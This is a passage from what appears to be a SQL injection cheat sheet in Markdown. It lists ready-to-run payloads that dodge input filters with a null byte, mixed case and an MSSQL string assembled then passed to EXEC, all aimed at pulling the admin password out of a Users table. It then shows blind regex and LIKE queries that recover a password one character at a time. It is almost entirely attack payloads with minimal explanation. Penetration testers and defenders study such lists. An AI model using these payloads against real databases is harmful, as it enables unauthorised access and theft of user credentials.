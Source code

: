 ##### Null byte

```sh
%00' UNION SELECT Password FROM Users WHERE UserName='admin'--'
```

##### Case variation

```sh
UnIoN SeLeCt PasSWord fRoM UsErS WhEre useRNAme='JoHn'
```

##### Declare variable

```sh
; declare @sqlvar nvarchar(70); set @sqlvar = (N'UNI' + N'ON' + N' SELECT' + N'Password'); EXEC(@sqlvar)
```



#### Exporting a value with regular expression attack

##### Exporting a value in MySQL

###### Check if first character in password is between 'a' and 'g'

```sh
2 and 1=(SELECT 1 FROM UserInfo WHERE Password REGEXP '^[a-g]' AND ID=2)
```

###### Check if first character in password is between 'a' and 'h'

```sh
2 and 1=(SELECT 1 FROM UserInfo WHERE Password REGEXP '^[a-h]' AND ID=2)
```

###### Check if first character in password is between 'd' and 'f'

```sh
2 and 1=(SELECT 1 FROM UserInfo WHERE Password REGEXP '^[d-f]' AND ID=2)
```

###### Check if first character in password is 'e'

```sh

2 and 1=(SELECT 1 FROM UserInfo WHERE Password REGEXP '^[e]' AND ID=2)
```

##### Exporting a value in MSSQL

###### Check if second character in password is between 'a' and 'f'

```sh
2 and 1=(SELECT 1 FROM UserInfo WHERE Password LIKE 'd[a-f]%' AND ID=2)
```
